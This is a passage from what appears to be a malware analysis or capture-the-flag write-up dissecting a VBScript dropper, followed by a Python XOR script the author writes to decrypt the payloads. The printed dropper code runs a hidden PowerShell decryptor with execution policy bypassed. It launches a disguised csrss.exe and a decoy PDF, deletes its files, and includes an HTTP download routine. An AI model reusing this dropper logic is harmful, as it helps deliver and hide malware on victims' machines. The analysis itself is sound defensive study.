 ```vb
Dim arrFilePaths
arrFilePaths = Array(strDownloadPath1, strDownloadPath3, strShowfilePath)
Dim i
For i = 0 To UBound(arrFilePaths)
	Dim intReturnCode    
	intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
	If intReturnCode <> 0 Then        
		WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode    
	End If
Next
```
Here the program seems to be running the script from above, with the encrypted files as the 1st, 3rd and 4th files downloaded, and the key as the second.
We can mimic this later to decrypt our files ourself.

```vb
objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"
Sub DownloadFile(url, path)    
	Dim objStream    
	Set objStream = CreateObject("ADODB.Stream")    
	objHTTP.Open "GET", url, False    
	objHTTP.Send    
	If objHTTP.Status = 200 Then        
		objStream.Open        
		objStream.Type = 1        
		objStream.Write objHTTP.ResponseBody        
		objStream.SaveToFile path, 2        
		objStream.Close    
	End If    
	Set objStream = Nothing
End Sub
```
At the end, the program runs the executable file created, which was `csrss.exe`, as well as the created pdf file, deletes all the files, and defines the `DownloadFile` function from earlier.

Lets try to download these files and decrypt them ourself.
After downloading the files, we can make a python script to decode the files:
```python
import sys

keyFile = "csrss.dll"
encFile = sys.argv[1]

keyFileContents = open(keyFile, "rb").read()
encFileContents = open(encFile, "rb").read()


for i in range(len(encFileContents)):
    print(chr(encFileContents[i] ^ keyFileContents[i % len(keyFileContents)]), end="")

```
Then we can run the command for example `python3 decode.py csrss.exe.enc > csrss.exe` to decode a file.
